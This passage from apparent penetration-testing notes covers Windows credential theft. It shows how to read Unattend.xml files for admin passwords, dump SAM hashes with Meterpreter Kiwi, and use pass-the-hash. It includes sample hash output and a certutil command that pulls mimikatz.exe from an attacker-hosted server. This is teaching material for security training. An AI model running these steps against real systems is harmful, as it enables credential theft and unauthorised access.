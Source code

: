 - This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	- C:\Windows\Panther\Unattend.xml 
	- C:\Windows\Panther\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.
```powershell
cd C:\Windows\Panther
dir
type Unattend.xml 
#or
type Autounattend.xml
```
### **6-Dumping Hashes With Mimikatz & Pass-The-Hash Attacks****
#### Dumping Hashes With Mimikatz
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.
Note: Mimikatz will require elevated privileges in order to run correctly.

#### Pass-The-Hash Attacks
- Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately
- We can use multiple tools to facilitate a Pass-The-Hash attack: 
	- Metasploit PsExec module
	- Crackmapexec
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.
```powershell
meterpreter > load kiwi
meterpreter > lsa_dump_sam
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ahmed:1000:aad3b435b51404eeaad3b435b51404ee:f0e181e88ca235d83e3633a50c274eec:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mohamed:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 
# if you dont have a meterpreter session but you have a elevated shell
# in your kali Linux
┌──(ahmed㉿kali)-[~/Tools/Akagi]
└─$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
┌──(ahmed㉿kali)-[~/Tools/Akagi]
└─$ cd /usr/share/windows-resources/mimikatz/x64/
┌──(ahmed㉿kali)-[/usr/share/windows-resources/mimikatz/x64/]
└─$ python3 -m http.server 8080
# on the windows shell
C:\temp> certutil -urlcache -f http::{Your IP}:8080/mimikatz.exe mimikatz.exe
C:\Windows\system32>mimikatz.exe
mimikatz.exe
```